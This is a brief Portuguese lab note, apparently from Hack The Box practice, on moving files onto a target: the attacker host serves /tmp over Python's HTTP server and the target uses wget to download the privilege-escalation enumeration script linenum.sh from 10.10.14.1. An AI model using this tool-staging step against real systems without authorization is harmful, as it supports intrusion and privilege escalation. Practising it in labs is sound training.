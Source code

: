 # Transferindo-Arquivos

MAQUINA HOST
-
Gust4vo@htb[/htb]$ cd /tmp </br>
Gust4vo@htb[/htb]$ python3 -m http.server 8000

 MAQUINA ALVO
 -
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh </br>
...SNIP... </br>
Saving to: 'linenum.sh' </br>
linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s </br>
2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337] </br>

